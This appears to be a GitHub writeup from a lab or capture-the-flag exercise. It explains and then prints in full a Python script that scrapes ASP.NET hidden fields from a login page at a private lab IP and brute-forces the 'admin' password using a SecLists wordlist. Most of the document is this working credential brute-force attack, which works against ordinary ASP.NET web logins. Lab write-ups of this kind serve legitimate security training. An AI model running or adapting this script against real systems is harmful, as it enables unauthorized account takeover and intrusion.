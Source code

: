# Automated Script Explanation => No Burp for this one => I will demo on YouTube the entire process 

---

## 1. Importing Libraries
```python
import requests
from bs4 import BeautifulSoup
import logging
```

### Libraries:
- **`requests`**: For making HTTP requests (GET and POST) to the target server.
- **`BeautifulSoup`**: Parses HTML and extracts specific data like hidden fields.
- **`logging`**: Logs messages for monitoring and debugging the script.

---

## 2. Logging Setup
```python
logging.basicConfig(level=logging.INFO)
```
- Configures logging to display messages at the `INFO` level or higher.
- Displays progress messages such as "Fetching the login page..." or "Trying password...".

---

## 3. Fetching the Login Page
```python
url = "http://10.10.12.86/Account/login.aspx?ReturnURL=%2fadmin"
session = requests.Session()

logging.info("Fetching the login page...")
response = session.get(url)
```

### Explanation:
- **`url`**: Target login page URL.
- **`session`**: Maintains cookies and session data across requests.
- **`session.get(url)`**: Fetches the login page, and stores the response.

---

## 4. Parsing the HTML
```python
soup = BeautifulSoup(response.content, 'html.parser')
viewstate = soup.find("input", {"id": "__VIEWSTATE"})['value']
eventvalidation = soup.find("input", {"id": "__EVENTVALIDATION"})['value']
```

### Explanation:
- **`BeautifulSoup`**: Parses the HTML content of the login page.
- **`soup.find`**: Locates hidden fields like:
  - `__VIEWSTATE`: Extracts the `value` attribute.
  - `__EVENTVALIDATION`: Retrieves the value required for the POST request.

---

## 5. Reading the Password Wordlist
- Will write the script on YouTube

```
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup
import logging

logging.basicConfig(level=logging.INFO)

# Target URL
url = "redacted"
session = requests.Session()

logging.info("Fetching the login page...")
response = session.get(url)
soup = BeautifulSoup(response.content, 'html.parser')

# Extract hidden fields
viewstate = soup.find("input", {"id": "__VIEWSTATE"})['value']
eventvalidation = soup.find("input", {"id": "__EVENTVALIDATION"})['value']

# Wordlist from SecLists
wordlist_file = "redacted"

try:
    with open(wordlist_file, "r") as f:
        passwords = f.readlines()
except FileNotFoundError:
    logging.error("Wordlist file not found.")
    exit()

# Brute-forcing
username = "admin"
for password in passwords:
    password = password.strip()
    logging.info(f"Trying password: {password}")

    payload = {
        "__VIEWSTATE": viewstate,
        "__EVENTVALIDATION": eventvalidation,
        "ctl00$MainContent$LoginUser$UserName": username,
        "ctl00$MainContent$LoginUser$Password": password,
        "ctl00$MainContent$LoginUser$LoginButton": "Log in"
    }

    login_response = session.post(url, data=payload)
    if "Invalid login" not in login_response.text:
        logging.info(f"Login successful! Username: {username}, Password: {password}")
        print(f"Correct password: {password}")
        break
else:
    logging.info("Password not found in the wordlist.")

